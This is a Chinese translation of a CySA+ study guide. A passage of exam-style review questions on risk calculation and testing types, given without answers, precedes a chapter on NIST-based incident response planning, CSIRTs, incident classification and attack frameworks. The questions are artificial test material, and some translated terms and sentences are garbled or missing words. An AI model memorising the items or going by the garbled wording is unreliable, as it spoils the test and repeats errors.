2. 你注意到针对机构运行的 Web 应用程序有大量的 SQL 注入攻击，你安装了 Web 应用防火墙在这些攻击到达服务器之前拦截大部分。你如何改变了风险的严重程度？

   1. 减少了影响
   2. 消除了漏洞
   3. 减少了概率
   4. 消除了威胁

**第 3 至 7 题涉及以下场景。**

Aziz 负责电子商务网站的管理，该网站每天为公司产生 100 万美元的收入。该网站使用包含公司客户敏感信息的数据库。他预计数据库一旦泄露，将导致公司面临 50 万美元的罚款。

Aziz 正在评估针对数据库的 SQL 注入攻击风险，攻击者可能将从数据库中窃取所有客户的个人身份信息 (PII)。在咨询了威胁情报后，他认为在任何一年内，攻击成功的概率为 5%。

### 3. 资产价值 (AV) 是多少？

1. $5,000
2. $100,000
3. $500,000
4. $600,000

### 4. 暴露因子 (EF) 是多少？

1. 5%
2. 20%
3. 50%
4. 100%

### 5. 单次损失期望 (SLE) 是多少？

1. $5,000
2. $100,000
3. $500,000
4. $600,000

### 6. 年发生率 (ARO) 是多少？

1. 0.05
2. 0.20
3. 2.00
4. 5.00

### 7. 年损失期望 (ALE) 是多少？

1. $5,000
2. $25,000
3. $100,000
4. $500,000

问题 8–11 参考以下场景。

Grace 最近完成了对其组织数据泄露风险情况的风险评估，并确定与敏感个人信息丢失相关的风险处于较高水平。她正在考虑多种管理这种风险的方法。

### 8. Grace 的第一个想法是添加一个 Web 应用程序防火墙以保护她的组织免受 SQL 注入攻击。这种方法采用了哪种风险管理策略？

1. 风险接受
2. 风险规避
3. 风险缓解
4. 风险转移

### 9. 业务负责人正在考虑停止收集和存储敏感个人信息的客户活动。这种方法将哪种风险管理策略？

1. 风险接受
2. 风险规避
3. 风险缓解
4. 风险转移

### 10. 公司决定安装 Web 应用程序防火墙并继续业务。他们仍然担心防火墙未能解决的其他信息风险，并考虑购买保险单来涵盖这些风险。使用的是哪种策略？

1. 风险接受
2. 风险规避
3. 风险缓解
4. 风险转移

### 11. 最后，风险管理人员发现保险太贵了，决定不购买。他们没有采取任何额外行动。在这种情况下使用的是哪种风险管理策略？

1. 风险接受
2. 风险规避
3. 风险缓解
4. 风险转移

### 12. 以下哪项是允许组织在受控环境中开放其系统供安全研究人员检查的正式流程？

1. 边缘发现
2. 被动发现
3. 安全控制措施测试
4. 漏洞赏金计划

### 13. 以下哪项通常用于协助预防 XSS 和 SQL 注入攻击？

1. 安全会话管理
2. 输入验证
3. SLOs
4. 维护窗口

### 14. 以下哪项是专门为支持渗透测试和恶意软件反向工程而设计的？

1. 免疫调试器
2. `GDB`
3. SDLC
4. 参数化查询

### 15. Jason 收集了威胁情报，其中指出其组织认为是威胁的攻击者喜欢使用 USB 优盘投放来攻击其目标。这是哪种示例？

1. 他的组织的攻击面
2. 可能的攻击向量
3. 攻击者能力的示例
4. 概率评估

### 16. 哪种类型的评估对于识别内部威胁特别有用？

1. 行为
2. 本能
3. 习惯
4. IOCs

### 17. STRIDE、PASTA 和 LID 都是什么的示例？

1. 组织方法
2. 风险评估
3. 威胁分类
4. 漏洞工具

### 18. 以下哪项是在代码执行时对其进行的什么类型测试？

1. 静态分析
2. 动态分析
3. 编译
4. 反汇编

### 19. Adam 正在通过查看应用程序源代码进行何种类型的测试？

1. 变异测试
2. 静态分析
3. 动态分析
4. 模糊测试

### 20. 测试期间，Tiffany 逐渐增加应用程序的连接直到其失败。她正在做什么？

1. 回归测试
2. 单元测试
3. 压力测试
4. 析构测试

# 领域 III

## 事件响应与管理

# 第 9 章

构建事件响应计划

无论组织如何准备其安全防御，总会遇到损害其信息机密性、完整性和可用性的安全事件。这种事件可能是一个快速修复的微小病毒感染，也可能是引起媒体关注的严重泄露。在任何情况下，组织必须做好协调应对的准备。

## 事件响应阶段

组织依靠`CSIRT`成员在发生安全事件时保持冷静且一致的响应。许多安全事件周围的危机氛围可能会导致糟糕的决策，除非组织有一个清晰、经过思且精过的流程。

## 安全事件

许多 IT 专业人员随意且交叉使用`安全事件`和`安全事故`术语，但这是错误的。安全事件响应团队的成员应该根据精确定义仔细使用这些术语。美国国家标准与技术研究院 (`NIST`) 为全政府提供了以下标准，许多私营组织也采用：

* 事件 (`event`) 是系统或网络中的任何观察。安全事件包括与安全功能相关的任何情况。例如，用户访问存储在服务器上的文件、管理员更改共享文件夹的权限以及攻击者进行端口扫描都是安全事件。
* 负面事件 (`adverse event`) 是任何产生负面后果的事件。负面事件示例包括系统感染病毒、服务器崩溃以及用户访问权限的文件。
* 安全事故 (`security incident`) 是对计算机安全策略、可接受使用策略或标准安全实践的违反或即将违反。安全事故示例包括信息的意外丢失、攻击者入侵计算机系统、在高管系统上使用键盘记录器窃取密码以及针对网站发起拒绝服务攻击。


计算机安全事件响应团队（`CSIRTs`）负责遵循标准化响应程序并结合专业知识和判断，对组织内部发生的计算机安全事故做出响应。

为了简洁起见，在本书其余部分我们将`事故`作为`计算机安全事故`的缩写。

由`NIST`提议的简单事件响应过程。`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf / 最后访问于 2023 年 2 月 15 日。`


# 图 9.1 (#c09.xhtml#R_c09-fig-0001) 事件响应过程 来源：NIST SP 800-61：计算机安全事件处理指南 [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问日期：2023 年 2 月 15 日。

注意，这一过程并不是从开始到结束的简单步骤演进。相反，它包含了循环，允许响应人员在响应期间根据需要返回之前的阶段。这些循环反映了对实际网络安全事件响应的现实。只有在最简单的事件中，组织才能按照简单直接的步骤顺序检测事件、分析数据、进行恢复并关闭事件。相反，封制过程通常包含多个回回检测和分析阶段的循环，以确定事件是否已成功解决。这些循环是网络安全事件响应过程的正常组成部分，并且是预之中的。

## 准备阶段

计算机安全响应小组（`CSIRT`）并非凭空出现。尽管经理们可能希望如此，但他们不能仅仅通过创建一份政策文件并为`CSIRT`分配员工就凭空变出一个`CSIRT`。相反，`CSIRT`需要周密的准备，以确保`CSIRT`拥有正确的政策基础、拥有在组织计算环境中有效的操作程序、接受适当的培训，并准备好响应事件。

本章接下来的两个部分“为事件响应奠定基础”和“创建事件响应团队”将更详细地描述准备阶段。

准备阶段还包括构建强大的网络安全防御体系，以减少未来事件发生的概率和影响。这种构建网络安全深度防御的方法通常包含许多可能不属于`CSIRT`的人员。

在准备阶段，组织还应该组集进行事件调查所需的硬件、软件和信息。`NIST`建议每个组织的事件响应工具包至少包含以下内容：

* 数字取证工作站
* 备份设备
* 用于数据收集、分析和报告的笔记本电脑
* 备用服务器和网络设备
* 空白移除介质
* 便携式打印机
* 取证和数据捕获软件
* 包含可信取证工具副本的可启动 USB 介质
* 办公用品和证据收集材料

你将在第 10 章“事件检测与分析”和第 11 章“封制、根与恢复”中学习更多关于用于事件响应过程的工具。

## 检测与分析

事件响应的检测和分析阶段是将其流程化最困难的任务之一。尽管网络安全分析师有许多可用工具可以协助识别安全事件的发生，但许多事件的检测是因为经验丰富的分析师具有敏锐眼光。

`NIST 800-61`描述了四类主要的安全事件指标：

* 源自入侵检测和防御系统、安全信息和事件管理系统（`SIEM`）、杀病毒软件、文件完整性检查软件和/或第三方监控服务的`警报（Alerts）`
* 由操作系统、服务、应用程序生成的`日志（Logs）`
* 关于新漏洞和利用程序的公开信息
* 来自组织内部或外部来源报告可疑活动的`人员`

当这些来源的任何一个指示可能发生安全事件时，响应人员应转入初始验证模式，试图确定其真伪。这种分析往往更多是艺术而非科学。`NIST`建议采取以下行动以提高有效性：

* `对网络和系统进行画像以衡量预期行为。`
* `理解用户、系统和网络的正常行为。`
* `创建日志策略，规定系统、应用程序和网络设备必须记录的信息。`
* `执行事件关联以结合来自多个源的信息。`
* `同步服务器、工作站和网络设备的时钟。`
* `维护一个包含系统关键信息的组织级知识库。`
* `一旦怀疑事件，立即捕获网络流量。`
* `过滤信息以减少冗余。`
* `寻求外部资源的帮助。`

你将在第 10 章中学习更多关于安全事件检测和分析的过程。

## 封制、根与恢复

在事件检测和分析阶段，`CSIRT`主要从事旨在发现和分析事件信息的被动活动。在完成此类评估后，团队将转向采取主动措施，旨在限制事件的影响、从网络中根除事件并恢复正常运行。

从高层次来看，过程的封制、根与恢复阶段旨在实现以下目标：

1. 选择适用于事件情况的封制策略。
2. 执行所选的封制策略以限制事件造成的损害。
3. 根据需要收集额外证据以支持响应工作和潜在的法律行动。
4. 识别攻击者和攻击系统。
5. 根除事件的影响并恢复正常业务运行。

你将在第 11 章中学习更多关于事件响应中遏制、消除和恢复阶段使用的技术。

## 事件后活动

安全专业人员从网络中移除攻击者或完成恢复业务正常运行的工作后，安全事件并没有结束。一旦立即危险消失且正常运行恢复，`CSIRT`就会进入事件响应的事件后活动阶段。在此阶段，团队成员将执行取证程序、进行根原因分析、开展教训回顾，并确保他们符合内部和外部的证据留存要求。

### 取证分析

事件后活动的主要目标之一是确定事件期间实际上发生了什么。`取证分析`技术可以帮助你仔细且有条理地筛选大量的数字证据，以重构事件的细节。你将在第 13 章“执行取证分析与事件响应技术”中学习更多关于取证的技术。

### 根原因分析

在事件发生，网络安全分析师应该对事件的根原因有清晰的理解。这种`根原因分析`对于实施安全的恢复至关重要，可以纠正导致原始攻击的任何控制缺陷。毕竟，如果你不理解攻击者最初是如何突破你的安全控制的，就很难修正这些控制以防止攻击再次发生！

### 教训回顾

在`教训回顾`期间，响应人员会对事件及其自身的响应情况进行彻底审查，旨在为下一次事件改进程序和工具。这种回顾在所有人都到场讨论（物理或虚拟）的会议上进行时效果最有效。尽管有些组织尝试以离线方式进行教训回顾，但这种方法无法引发经常产生深刻见解的反复讨论。

教训回顾应由一个独立的协调员主持，该协调员未参与事件响应，并且被所有参与人员视为客观的局外人。这使得协调员能够以有效的方式引导讨论，而不会让参与者觉得协调员在推行隐藏意图。`NIST`建议教训过程回答以下问题：

* 究竟发生了什么，发生在什么什么时候？
* 员工和管理层在响应事件时的表现如何？
* 是否遵循了记录的程序？这些程序是否充分？
* 哪些信息需要更早获得？
* 是否采取了可能阻碍恢复的步骤或行动？
* 下次发生类似事件时，员工和管理层会采取哪些不同的做法？
* 与其他组织的信息共享可以如何改进？
* 哪些纠正措施可以防止未来发生类似事件？
* 未来应该关注哪些先兆或指标以检测类似事件？
* 需要哪些额外的工具或资源来检测、分析和缓解未来的事件？

一旦小群组回答了这些问题，管理层必须确保组织根据情况采取后续行动。只有当教训回顾发现了所需的更改，并且这些更改随后发生以改进未来的事件响应工作时，它们才是有效的。

### 证据留存

在事件结束时，`CSIRT`通常已经收集了大量的证据。团队负责人应与员工合作识别内部和外部的证据留存要求。如果事件可能导致民事诉讼或刑事起诉，团队在丢弃任何证据之前应咨询律师。如果没有证据进入法庭的可能性，团队应遵循组织现行的任何留存政策。

在事件后活动阶段结束，`CSIRT`取消激活，事件处理周期回到准备、检测和分析阶段。

你将在第 11 章中阅读更多关于事件后活动阶段开展的活动。

## 构建事件响应的基础

组织在事件响应准备阶段承担的主要责任之一是为该计划建立稳固的策略和程序基础。这创建了支持计划持续努力所需的文档。

### 策略

事件响应策略是组织事件响应计划的基石。该策略的编写应在并在层面上指导工作，并为事件响应提供授权。策略应在组织内部尽可能可能的级别批准，最好由首席执行官批准。由于此原因，策略编写者应尝试以一种相对永恒的方式来编写策略。这意味着策略应该包含为事件响应提供授权的陈述、为`CSIRT`分配责任，并描述单个用户的角色以及说明组织的优先事项。策略**不是**描述特定技术、响应程序或证据收集技术的地方。这些细节可能会频繁变化，应涵盖在更易更改的程序文档中。

`NIST`建议事件响应策略包含这些关键要素：

* 管理层承诺的声明
* 策略的目的和目标
* 策略的范围（适用于谁以及在什么情况下适用）
* 网络安全事件及相关术语的定义
* 组织结构以及角色、职责和权限级别的定义
* 事件的优先级排序或严重程度评分方案
* `CSIRT`的绩效衡量
* 报告和联系表单

在策略中包含这些要素为`CSIRT`的日常和危机活动提供了坚实的基础。

### 程序和剧本

`程序`提供了`CSIRT`成员在响应事件时所需的详细战术信息。它们代表了团队成员和主领域专家在平静时期收集的集体智慧，并准备在实际事件发生时应用。`CSIRT`团队通常会开发`剧本`，描述他们在遇到特定类型网络安全事件时将遵循的具体程序。例如，金融机构的`CSIRT`开发涵盖以下内容的剧本：

* 个人财务信息泄露
* Web 服务器破坏
* 针对客户的钓鱼攻击
* 笔记本丢失
* 其他剧本未涵盖通用安全事件

这显然不是一份清单，每个组织都会开发描述其对高严重性和频繁发生的事件类别响应的剧本。剧本背后的想法是，团队应该拿起它并找到一个可以遵循的响应安全事件的操作计划。剧本在事件响应的早期几个小时内尤为重要，以确保团队对潜在事件的首批报告有计划的、有节制的响应。

### 文档化事件响应计划

在制定事件响应计划文档时，组织应特别关注创建在事件响应过程中可能有用工具。这些工具应为响应团队提供清晰的指导，以便在危机时刻被快速阅读和理解。例如，图 9.2 所示的事件响应清单以清单的形式提供了事件响应过程的高级概述。计算机安全应急响应小组（`CSIRT`）领导可以使用此清单来确保团队在危热的危机环境中不会遗掉任何重要步骤。


图 9.2 事件响应清单 ¶ 来源: NIST SP 800-61: Computer Security Incident Handling Guide [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问于 2023 年 2 月 15 日。

## 创建事件响应小组

`CSIRT`应该代表许多不同的角色。根据组织及其技术需求，其中某些角色可能是始终处于激活状态的核心团队成员，而另一些角色可能根据每次事件的需要才被召回。例如，数据库管理员在调查 SQL 注入攻击的后果时可能至关重要，但在响应笔记本电脑被盗事件时可能提供不了太大帮助。

核心事件响应团队通常由在事件响应方面具有特定专业知识的网络安全人员组成。在较大的组织中，这些可能是专门负责事件响应的全职员工；而在较小的组织中，可能会聘请担任其他职位的“本职”的网络安全专家在事件发生后担任`CSIRT`角色。

除了核心团队成员外，`CSIRT`还可以包括以下人员的代表：

* 技术领域专家，在响应过程中可能需要他们的知识。这包括系统工程师、网络管理员、数据库管理员、桌面专家和应用程序专家。
* IT 支持人员，可能需要他们执行由`CSIRT`指导的操作。
* 法律顾问，负责确保团队的行为符合法律、政策和监管要求，并能就合规问题和与监管机构的沟通向团队领导提供建议。
* 人力资源人员，负责调查潜在的员工违规行为。
* 公关和营销人员，可以协调与媒体和公众的沟通。

`CSIRT`应由一名指定的领导运行，该领导具有明确的权限来指导事件响应工作，并作为与管理层的联系人。该领导应该是一个熟练的事件响应人员，要么被分配全职领导`CSIRT`，要么在网络安全领导岗位工作。

### 事件响应提供者

除了在`CSIRT`中包含内部团队成员外，组织还可能决定将部分或全部行动外包给事件响应提供者。保留事件响应提供者使组织能够获得公司内部可能不存在的专业知识。这可能耗费巨资，因此组织应该决定哪些类型的事件可以在内部处理，哪些事件则有必要使用外部提供者。此外，组织应该了解提供者的保证响应时间，并确保已制定计划，在提供者接管之前对事件的早期阶段做出响应。

### CSIRT 控制范围

组织的事件响应策略应明确概述`CSIRT`的范围。这包括对以下问题的回答：

* 什么触发了`CSIRT`的激活？谁有权激活`CSIRT`？
* `CSIRT`是否涵盖整个组织，还是仅负责某些业务部门、信息类别或其他责任部门？
* `CSIRT`是否有权与执法部门、监管机构或其他外部实体通信？如果是，是哪些机构？
* `CSIRT`是否具有内部通信和/或升级责任？如果是，是什么触发了这些要求？

## 事件分类

每当事件发生时，`CSIRT`都应该根据标准的事件严重性评分系统，从威胁类型和事件严重性两个对事件进行分类。这种分类有助于其他人员理解事件的性质和严重性，并允许将当前事件与过去的事件进行比较。

## 威胁分类

在许多情况下，事件来自已知的威胁源，这有助于快速识别威胁。`NIST`提供了以下有助于分类威胁的攻击向量：

* `外部/可移动介质`：从可移动介质或外围设备执行的攻击——例如，恶意代码从受感染的 USB 闪盘传播到系统。
* `耗尽`：采用暴力破解方法来破坏、降级或破坏系统、网络或服务的攻击——例如，旨在损害或拒绝访问服务或应用程序的 DDoS 攻击，或针对身份验证机制的暴力破解攻击。
* `Web`：从网站或基于 Web 的应用程序执行的攻击——例如，用于窃取凭据或重定向到利用浏览器漏洞并安装恶意软件的跨站脚本注入攻击（`XSS`）。
* `邮件`：通过电子邮件消息或附件执行的攻击——例如，伪装成附件文档的利用代码，或邮件正文中指向恶意网站的链接。
* `伪装`：涉及将某些良性内容替换为恶意内容的攻击——例如，欺骗攻击、路径攻击（中间人攻击）、非法无线访问点和 SQL 注入攻击都涉及伪装。
* `使用不当`：任何由于获得授权的用户违反组织的可接受使用政策而导致的任何事件，不包括上述类别；例如，用户安装文件共享软件导致敏感数据丢失，或用户在系统上进行非法活动。
* `设备丢失或被盗`：组织使用的计算设备或介质的丢失或被盗，例如笔记本电脑、智能手机或身份令牌。
* `未知`：来源未知的攻击。
* `其他`：来源已知但不符合上述任何类别的攻击。

除了理解这些攻击向量外，网络安全分析师还熟悉高级持续性威胁（`APT`）的概念。`APT`攻击者是高技能、有天赋的攻击者，专注于特定目标。这些攻击者通常由国家、组织犯罪和其他拥有巨大资源的来源资助。`APT`攻击者以利用`零日漏洞`闻名——即安全社区未知的漏洞，因此未包含在漏洞扫描器和其他工具的安全测试中，且没有可用的补丁进行修复。

### 严重性分类

`CSIRT`成员根据其职责范围和组织规模，每年可能调查几十次、数百甚至数千次安全事件。因此，使用标准化的流程向管理层和其他利益相关者传达每个事件的严重程度至关重要。事件严重性信息有助于确定事件响应工作的优先级和范围。

用于确定事件严重程度的两个关键标准是影响范围和涉及事件的数据类型。

## 影响范围

事件影响的范围取决于其对组织造成的受损程度，以及从事件中恢复所需的努力。

### 功能影响

事件的功能性影响是指其对组织造成的受损程度。这可能取决于受事件影响的数据、系统或流程的关键性，也取决于组织在事件发生期间及事件发生后继续为用户提供服务的能力。`NIST`建议使用四个类别来描述事件的功能性影响，如表 9.1 所示。

`表 9.1` NIST 功能性影响分类

来源：NIST SP 800-61：计算机安全事件处理指南 [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问于 2023 年 2 月 15 日。

| 类别 | 定义 |
| --- | --- |
| 无 | 对组织向所有用户提供所有服务的能力没有影响。 |
| 低 | 影响极小；组织仍能向所有用户提供所有关键服务，但效率有所降低。 |
| 中 | 组织失去了为部分系统用户提供关键服务的能力。 |
| 高 | 组织无法为任何用户提供某些关键服务。 |

`NIST`提供的功能影响评估标准中存在一个主要缺陷：它没有包含对安全事件给组织经济影响的评估。这可能是因为`NIST`指南主要面向政府受众。组织可能希望修改表 9.1 中的类别以纳入经济影响，或使用独立的比例来衡量财务影响，如表 9.2 所示。

表 9.2 中包含的财务阈值仅供示例，应根据组织规模进行调整。例如，一个导致 500,000 美元损失的安全事件对小型企业来说可能是致命性的，而财富 500 强公司可以轻松吸收这一损失。

`表 9.2` 经济影响分类

| 类别 | 定义 |
| --- | --- |
| 无 | 组织预计不会遭受任何财务影响，或财务影响微乎其微。 |
| 低 | 组织预计遭受 10,000 美元或以下的财务影响。 |
| 中 | 组织预计遭受超过 10,000 美元但少于 500,000 美元的财务影响。 |
| 高 | 组织预计遭受 500,000 美元或以上的财务影响。 |

### 可恢复努力


除了衡量安全事件的功能和经济影响外，组织还应该衡量服务不可用的时间。这可以表示为服务经历的停机时间或从事件中恢复所需的时间。表 9.3 显示了 NIST 对评估安全事件可恢复影响所提出的建议。

`表 9.3` NIST 可恢复努力分类

来源：NIST SP 800-61：计算机安全事件处理指南 [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问于 2023 年 2 月 15 日。

| 类别 | 定义 |
| --- | --- |
| 常规 | 利用现有资源，恢复时间是可预测的。 |
| 补充 | 利用额外资源，恢复时间是可预测的。 |
| 扩展 | 恢复时间不可预测；需要额外的资源和外部帮助。 |
| 不可恢复 | 无法从事件中恢复（例如，敏感数据被泄露并公开）；启动调查。 |

### 数据类型

安全事件中涉及的数据性质也会影响事件的严重性。当安全事件影响敏感信息的机密性或完整性时，网络安全分析师应分配数据影响评分。NIST 建议的数据影响评分标准出现在表 9.4 中。

`表 9.4` NIST 信息影响分类

来源：NIST SP 800-61：计算机安全事件处理指南 [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问于 2023 年 2 月 15 日。

| 类别 | 定义 |
| --- | --- |
| 无 | 信息未被泄露、更改、删除或受到损害。 |
| 隐私泄露 | 纳税人、员工、受益人等的敏感个人身份信息（PII）被访问或泄露。 |
| 专有泄露 | 未分类的专有信息（如受保护的基础设施信息 PCII）被访问或泄露。 |
| 完整性丢失 | 敏感信息或专有信息被更改或删除。 |

尽管表 9.4 中所示的影响标准是 NIST 的建议，但它确实存在一些明显的缺陷。最重要的是，表中的定义倾向于政府机构可能拥有的信息类型，可能无法很好地映射到私有组织的信息。某些分析师可能反对将“完整性丢失”作为一个独立于三个取决于分类的泄露类别的类别引入。

表 9.5 提供了一种替代分类方案，私有组织可以将其作为自己的信息影响分类方案的基础。

`表 9.5` 私有组织信息影响分类

| 类别 | 定义 |
| --- | --- |
| 无 | 信息未被泄露、更改、删除或受到损害。 |
| 受监管信息泄露 | 受外部合规义务监管的信息被访问或泄露。这可能包括触发数据泄露通知法律的个人身份信息（PII）、HIPAA 下的保护健康信息（PHI）以及受 PCI DSS 保护的支付卡信息。对于受欧盟《通用数据保护条例》（GDPR）约束的组织，它还应包括 GDPR 定义的敏感个人信息（SPI）。SPI 包含特殊类别的信息，例如遗传数据、工会成员身份和性信息。 |
| 知识产权泄露 | 敏感知识产权被访问或泄露。 |
| 机密信息泄露 | 访问或外泄了公司机密信息。这包括敏感或被归类高价值资产的信息，但不属于受监管信息或知识产权的类别。例如，公司财务信息或有关合并收购的信息。 |
| 完整性破坏 | 敏感或专有信息被更改或删除。 |

与财务影响范围一样，组织将需要对表 9.5 中的信息影响分类进行自定义，以满足其业务流程的需要。

## 攻击框架

已有许多尝试通过框架来描述攻击方法，以帮助防御人员模拟攻击和相应的防御。CySA+ 考试关注三个特定的框架，但您的组织可能会使用不同的模型，或者从零开始或通过结合一个或多个框架与其自身的需求和经验来创建自己的模型。框架有助于思考攻击者可能做什么，以便您能够针对攻击建立适当的防御。

### MITRE 的 ATT&CK 框架

MITRE 提供了`ATT&CK`（即对抗者战术、技术和常见知识），这是一份关于攻击者战术和技术的知识库。ATT&CK 矩阵包含了完整威胁生命周期的详细描述、定义和示例，从初始访问到执行、持久化、权限提升和外泄。在每个层级，它都列出了技术和组件，使得威胁评估建模能够利用通用描述和知识。

ATT&CK 矩阵包括攻击前矩阵，以及关注于 Windows、macOS、Linux、云计算、网络和容器使用的企业级矩阵。它还产生了关注于移动设备（iOS 和 Android）和工业控制系统（ICS）的矩阵。每个矩阵都包含了缓解措施、威胁行为者小组、软件以及许多其他有用细节。所有这些内容使 ATT&CK 成为本书作者所知的最全面的攻击者技术、战术及相关信息的免费可用数据库。

图 9.3 显示了主动扫描技术的 ATT&CK 技术定义示例。它提供了 ID 编号以及分类细节，如战术、适用的平台、潜在的缓解控制和检测机制。

除了 ATT&CK 网站和材料外，各种第三方项目利用 ATT&CK 来构建剧本（playbooks）、工具甚至商业软件。您可以在`http://attack.mitre.org`找到 ATT&CK 网站。

### 入侵分析钻石模型

`入侵分析钻石模型（Diamond Model of Intrusion Analysis）`描述了攻击者针对受害者基础设施部署能力的序列。在这个模型中，活动被称为“事件”，分析人员将顶点标记为检测或发现的事件。该模型旨在通过跟踪事件之间的边来突出元素之间的关系，从而帮助分析人员发现更多信息。

钻石模型使用了一些特定术语：

* 事件的`核心特征`（Core Features），即攻击者、能力、基础设施和受害者（钻石的顶点）。
* `元特征`（Meta-Features），包括开始和结束时间戳、阶段、结果、方向、方法论和资源。这些用于将事件按名为“活动线程”（activity thread）的序列进行排序，并根据其特征对事件进行分组。
* `置信值`（Confidence Value），模型未对其定义，但要求分析人员根据自己的工作来确定。

图 9.4 显示了针对受害系统进行的分析示例。注意，每个元素都有助于识别额外信息或审查区域。

钻石模型侧重于理解攻击者及其动机，然后利用这些元素之间的关系，让安全分析人员既能理解威胁，又能考虑可能需要获取或可能已有的其他数据信息。

您可以在`https://apps.dtic.mil/sti/pdfs/ADA586960.pdf`阅读钻石模型的论文全文。


图 9.3 主动扫描的 ATT&CK 定义


图 9.4 受害系统的钻石模型分析

### 洛克希德·马丁的网络杀伤链

洛克希德·马丁的`网络杀伤链（Cyber Kill Chain）`是一个七阶段的过程，如图 9.5 所示。

这七阶段如下：

1. **侦察**（Reconnaissance），用于识别目标。在此阶段，攻击者正在策划他们的攻击，并将收集有关目标的情报，包括开源情报和通过扫描直接获取目标数据。防御人员必须收集有关侦察活动的数据，并根据这些信息优先考虑防御。

2. **武器化**（Weaponization），涉及构建或获取武器化工具，将恶意软件和漏洞利用结合成一个可以交付给目标的载荷。这可能需要创建诱饵文件、选择正确的命令控制工具以及其他细节。该模型强调，防御人员在这一阶段需要进行全面的恶意软件分析，以不仅了解投放了什么载荷，还了解武器化漏洞利用是如何制作的。防御人员还应该对武器化工具建立检测，查看恶意软件创建与使用的时间线，并收集文件和元数据，以帮助他们查看这些工具是广泛共享的还是秘密持有的（因此针对性非常窄）。

3. **交付**（Delivery），当攻击者直接向目标部署工具，或通过依赖目标员工与其交互的发布来投放时（例如电子邮件载荷、USB 闪盘或他们访问的网站），即发生此阶段。防御人员在此阶段必须观察攻击是如何交付的以及目标是什么，然后推断攻击者的意图。日志的留存在此阶段也很重要，因为防御人员需要这些日志来跟踪发生了什么。


图 9.5 网络杀伤链

4. **利用**（Exploitation），利用软件、硬件或人类漏洞获取访问权限。这可能涉及零日漏洞，并可能使用攻击者触发的或受害者触发的利用。针对该阶段的防御关注于用户意识、安全编码、漏洞扫描、渗透测试、终端加固和类似活动，以确保组织具有强大的安全态和非常小的攻击面。

5. **安装**（Installation），侧重于攻击者的持久性后门访问。防御人员必须监控持久远程 shell 或远程访问方法的典型迹象。

6. **命令与控制（Command-and-Control, C2）**，允许双向通信和对远程系统的持续控制。防御人员将寻求通过加固网络、部署检测能力和进行持续研究来检测 C2 基础设施，以确保他们了解新的 C2 模型和技术。

7. **目标上的行动**

最终阶段发生在目标达成时。攻击者将收集凭据、提升权限、进行转向并在环境中横向移动，以及收集并外泄信息。他们还可能对系统或数据造成破坏。防御者必须建立自己的事件响应剧本（playbook），检测攻击者的行为并捕获相关数据，响应告警，并评估攻击者造成的损害。

完整的洛希德·马丁网络杀伤链（Lockheed Martin Cyber Kill Chain）可以在`www.lockheedmartin.com/content/dam/lockheed-martin/rms/documents/cyber/Gaining_the_Advantage_Cyber_Kill_Chain.pdf`查看详细信息。

## 统一杀链 (Unified Kill Chain)

尽管 CySA+ 考试没有特别提到，但你可能会发现统一杀链有用。统一杀链将洛希德·马丁的网络杀伤链和 MITRE ATT&CK 框架（以及许多其他！）整合到一个单一杀链模型中。它使用 18 个阶段来描述发生在防御网络内部和外部攻击，解决了针对这两个框架的意见。你可以在`www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf`学习更多关于统一杀链的信息。

## 开发测试策略

当然，安全分析师不仅负责调查发生的攻击——他们还花大量时间测试系统，以确保受到未来攻击的保护。幸运的是，有许多测试标准可以帮助你开发全面的测试策略。

CySA+ 考试必须掌握的两个测试资源是：

* 由安全与开放方法学会（Institute for Security and Open Methodologies）发布的`开源安全测试方法手册 (OSS TMM)`为测试物理位置、人员交互和通信的安全提供了指导。你可以在`www.isecom.org/OSSTMM.3.pdf`找到它。
* `开放 Web 应用安全项目 (OWASP) Web 安全测试指南 (Web Security Testing Guide)`提供了专门针对 Web 应用安全测试的资源。你可以在`https://owasp.org/www-project-web-security-testing-guide`找到它。

## 总结

事件响应程序使组织能够冷静、可重复的方式应对安全问题。当发生或怀疑违反或即将违反组织安全策略的情况时，就会发生安全事件。当安全事件发生时，组织应激活其计算机安全事件响应小组 (`CSIRT`)。

`CSIRT`引导组织通过事件响应的四个阶段：准备；检测与分析；遏制、根除与恢复；事后活动。在准备阶段，组织确保`CSIRT`拥有适当的策略基础、在组织计算环境中有效的操作程序、接受适当的培训，并准备好响应事件。

在检测与分析阶段，组织监视安全事件的迹象。这包括监控告警、日志、公开信息，以及来自内部和外部人员关于安全异常的报告。当组织怀疑发生安全事件时，它将进入遏制、根除和恢复阶段，该阶段旨在尽可能地限制损害并尽快恢复正常运行。

正常活动的恢复并不意味着事件响应努力的结束。在事件结束时，事后活动阶段为组织提供了通过进行教训回顾（lessons learned review）来对事件进行反思的机会。在此阶段，组织还应确保根据策略保留证据以备后用。

网络安全分析师使用各种模型来描述他们面临的威胁以及威胁源者的活动。最重要的三个模型是：洛希德·马丁网络杀伤链、入侵分析钻石模型（Diamond Model of Intrusion Analysis）和 MITRE ATT&CK 模型。

## 考试要点

**区分安全事件和安全机事件。** 事件（event）是系统或网络中任何可观测的现象。安全事件（security event）包括任何与安全相关的可观测现象。安全事件（incident）是违反或即将违反计算机安全策略、可接受使用策略或标准安全实践的行为。每个事件由一个或多个事件组成，但并非每个事件都是安全机事件。

**说出网络安全事件响应过程的四个阶段。** 事件响应的四个阶段是：准备；检测与分析；遏制、根除与恢复；事后活动。该过程不是从开始到结束的简单步骤线性。相反，它包含了循环，允许响应人员在响应期间根据需要返回之前的阶段。

